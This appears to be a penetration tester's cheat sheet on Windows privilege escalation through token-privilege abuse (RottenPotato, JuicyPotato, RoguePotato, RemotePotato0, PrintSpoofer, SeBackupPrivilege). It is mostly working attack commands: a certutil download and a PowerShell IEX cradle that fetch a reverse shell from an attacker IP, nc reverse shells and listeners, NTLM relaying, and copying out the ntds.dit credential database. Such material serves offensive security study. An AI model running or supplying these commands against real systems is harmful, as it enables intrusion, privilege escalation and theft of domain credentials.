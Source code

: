 # Privileges Abuse

* [https://github.com/gtworek/Priv2Admin](https://github.com/gtworek/Priv2Admin)




## SeImpersonatePrivilege

* [https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato)



### Potatoes

* [https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)


#### foxglovesec/RottenPotato

* [https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)
* [https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/)
* [https://github.com/foxglovesec/RottenPotato](https://github.com/foxglovesec/RottenPotato)

```
$ curl -L https://github.com/foxglovesec/RottenPotato/raw/master/rottenpotato.exe > r.exe
meterpreter > upload r.exe
meterpreter > load incognito
meterpreter > execute -cH -f r.exe
meterpreter > list_tokens -u
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
```


#### decoder/the-lonely-potato

* [https://decoder.cloud/2017/12/23/the-lonely-potato/](https://decoder.cloud/2017/12/23/the-lonely-potato/)


#### ohpe/juicy-potato

* [https://github.com/ohpe/juicy-potato/releases](https://github.com/ohpe/juicy-potato/releases)
* [https://github.com/ivanitlearning/Juicy-Potato-x86/releases](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)
* [https://ohpe.it/juicy-potato/CLSID](https://ohpe.it/juicy-potato/CLSID)

```
$ curl -L https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe > j.exe
$ curl -L https://github.com/samratashok/nishang/raw/master/Shells/Invoke-PowerShellTcpOneLine.ps1 > rev.ps1
...Change LHOST to 10.10.13.37 and LPORT to 443...
Cmd > certutil -urlcache -split -f http://10.10.13.37/j.exe C:\Windows\System32\spool\drivers\color\j.exe
Cmd > echo cmd /c powershell -exec bypass -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/rev.ps1')" > rev.bat
$ sudo rlwrap nc -lvnp 443
Cmd > .\j.exe -l 1337 -p C:\Windows\System32\spool\drivers\color\rev.bat -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}
```


#### RoguePotato

* [https://github.com/antonioCoco/RoguePotato/releases](https://github.com/antonioCoco/RoguePotato/releases)

Redirect traffic that comes to 135 port on Attacker (`10.10.13.37`) with `socat` back to the Victim (`192.168.1.11`) on port 9999 (RogueOxidResolver is running locally on port 9999 on Victim):

```
$ socat tcp-listen:135,reuseaddr,fork tcp:192.168.1.11:9999
```

Trigger the potato to run a binary with high privileges (don't forget to start a listener if sending a reverse shell):

```
Cmd > .\RoguePotato.exe -r 10.10.13.37 -e "C:\windows\Temp\nc.exe 10.10.13.37 443 -e cmd" -l 9999
```


#### RemotePotato0

* [https://github.com/antonioCoco/RemotePotato0/releases](https://github.com/antonioCoco/RemotePotato0/releases)

```
$ sudo socat TCP-LISTEN:135,fork,reuseaddr TCP:192.168.1.11:9998
$ sudo python ntlmrelayx.py -t ldap://192.168.1.11 --no-wcf-server --escalate-user snovvcrash
Cmd > query user
Cmd > .\RemotePotato0.exe -r 10.10.13.37 -p 9998 -s 5
```



### PrintSpoofer

* [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
* [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-BadPotato.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-BadPotato.ps1)

Check if Print Spooler service is running:

```
PS > Get-Service Spooler

Status   Name               DisplayName
------   ----               -----------
Running  Spooler            Print Spooler
```

Exploit:

```
PS > . .\Invoke-BadPotato.ps1; Invoke-BadPotato -C "C:\Users\snovvcrash\music\pwn.exe"
```



### Restore Privilege

* [https://itm4n.github.io/localservice-privileges/](https://itm4n.github.io/localservice-privileges/)




## SeBackupPrivilege



### SeBackupPrivilege

* [https://github.com/giuliano108/SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege)

```
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll

upload SeBackupPrivilegeCmdLets.dll
upload SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
Copy-FileSeBackupPrivilege W:\Windows\NTDS\ntds.dit C:\Users\snovvcrash\Documents\ntds.dit -Overwrite
download ntds.dit
```



### robocopy

```
PS > cmd /c where robocopy
PS > robocopy /B W:\Windows\NTDS\ntds.dit C:\Users\snovvcrash\Documents\ntds.dit
```
